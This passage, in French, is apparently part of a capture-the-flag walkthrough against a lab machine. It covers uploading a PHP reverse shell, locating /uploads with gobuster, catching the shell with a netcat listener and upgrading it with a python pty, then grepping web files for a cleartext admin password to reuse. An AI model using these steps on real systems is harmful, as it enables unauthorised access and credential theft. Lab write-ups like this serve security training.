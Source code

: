 Pour cet exercice, nous allons utiliser /usr/share/webshells/php/php-reverse-shell.php.

Bien sûr, nous devons modifier le code ci-dessus pour qu'il corresponde à nos besoins. Nous allons changer les variables $ip et $port pour correspondre à nos paramètres, puis nous tenterons de télécharger le fichier.

### Brute force des répertoires

Nous avons finalement réussi à le télécharger. Maintenant, nous pourrions avoir besoin de brute-forcer les répertoires pour localiser le dossier où les fichiers téléchargés sont stockés, mais nous pouvons aussi deviner. Le répertoire `uploads` semble être une supposition logique. Nous confirmons cela en exécutant également l'outil `gobuster`.

- **Commande** : `gobuster dir --url http://{TARGET_IP}/ --wordlist /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -x php`

Le gobuster a immédiatement trouvé le répertoire /uploads. Nous n'avons pas la permission d'accéder au répertoire, mais nous pouvons essayer d'accéder à notre fichier téléchargé.

### Connexion Netcat

Tout d'abord, nous devons configurer une connexion Netcat :

- **Commande** : `nc -lvnp 1234`

Ensuite, nous demandons notre shell via le navigateur :

- **URL** : `http://{TARGET_IP}/uploads/php-reverse-shell.php`

Et vérifiez notre écouteur.

Note : Si notre shell n'est pas là, il a peut-être été supprimé, donc nous devons le télécharger à nouveau.

Nous avons obtenu un shell inverse ! Pour avoir un shell fonctionnel, nous pouvons émettre la commande suivante :

- **Commande** : `python3 -c 'import pty;pty.spawn("/bin/bash")'`

## Mouvement latéral

En tant qu'utilisateur www-data, nous ne pouvons pas faire grand-chose car le rôle a un accès restreint au système. Étant donné que le site web utilise PHP et SQL, nous pouvons énumérer davantage le répertoire web pour des divulgations potentielles ou des mauvaises configurations. Après quelques recherches, nous pouvons trouver des fichiers PHP intéressants sous le répertoire /var/www/html/cdn-cgi/login. Nous pouvons examiner manuellement le code source de toutes les pages ou essayer de rechercher des chaînes intéressantes à l'aide de l'outil grep. Grep est un outil qui recherche des MOTIFS dans chaque FICHIER et imprime les lignes qui correspondent aux motifs. Nous pouvons utiliser `cat *` pour lire tous les fichiers tout en pipant la sortie vers grep où nous fournissons le motif d'une chaîne qui commence par le mot passw et suivi de n'importe quelle chaîne comme par exemple les mots passwd ou password. Nous pouvons également utiliser l'option -i pour ignorer les mots sensibles à la casse comme Password.

- **Commande** : `cat * | grep -i passw*`

Nous avons en effet obtenu le mot de passe : MEGACORP_4dm1n!!. Nous pouvons vérifier les utilisateurs disponibles sur le système en lisant le fichier /etc/passwd afin de tenter une réutilisation de ce mot de passe :
